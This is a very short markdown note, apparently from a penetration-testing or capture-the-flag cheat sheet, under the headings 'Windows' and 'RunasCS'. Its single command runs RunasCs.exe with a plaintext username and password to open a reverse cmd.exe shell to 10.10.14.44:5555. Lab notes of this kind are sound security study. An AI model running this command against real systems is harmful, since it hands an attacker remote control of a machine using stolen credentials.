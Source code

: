 # Windows

## RunasCS

```ps1
.\RunasCs.exe openfire "HotP!fireguard" cmd.exe -r 10.10.14.44:5555
```